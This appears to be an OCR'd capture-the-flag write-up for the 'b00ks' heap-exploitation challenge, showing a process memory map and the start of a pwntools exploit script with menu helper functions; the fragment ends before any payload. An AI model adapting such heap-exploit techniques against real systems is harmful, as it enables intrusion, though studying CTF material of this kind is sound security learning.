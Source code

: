 ```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f6572703000 0x00007f65728c3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f65728c3000 0x00007f6572ac3000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac3000 0x00007f6572ac7000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac7000 0x00007f6572ac9000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac9000 0x00007f6572acd000 0x0000000000000000 rw-
0x00007f6572acd000 0x00007f6572af3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cb4000 0x00007f6572cd9000 0x0000000000000000 rw- <=== mmap
0x00007f6572cf2000 0x00007f6572cf3000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf3000 0x00007f6572cf4000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf4000 0x00007f6572cf5000 0x0000000000000000 rw-
0x00007fffec566000 0x00007fffec587000 0x0000000000000000 rw- [stack]
0x00007fffec59c000 0x00007fffec59f000 0x0000000000000000 r-- [vvar]
0x00007fffec59f000 0x00007fffec5a1000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

#### exploit

```python
from pwn import *
context.log_level="info"

binary = ELF("b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
io = process("./b00ks")


def createbook(name_size, name, des_size, des):
	io.readuntil("> ")
	io.sendline("1")
	io.readuntil(": ")
	io.sendline(str(name_size))
	io.readuntil(": ")
	io.sendline(name)
	io.readuntil(": ")
	io.sendline(str(des_size))
	io.readuntil(": ")
	io.sendline(des)

def printbook(id):
	io.readuntil("> ")
	io.sendline("4")
	io.readuntil(": ")
	for i in range(id):
		book_id = int(io.readline()[:-1])
		io.readuntil(": ")
		book_name = io.readline()[:-1]
		io.readuntil(": ")
		book_des = io.readline()[:-1]
		io.readuntil(": ")
		book_author = io.readline()[:-1]
	return book_id, book_name, book_des, book_author

def createname(name):
	io.readuntil("name: ")
	io.sendline(name)

def changename(name):
	io.readuntil("> ")
	io.sendline("5")
```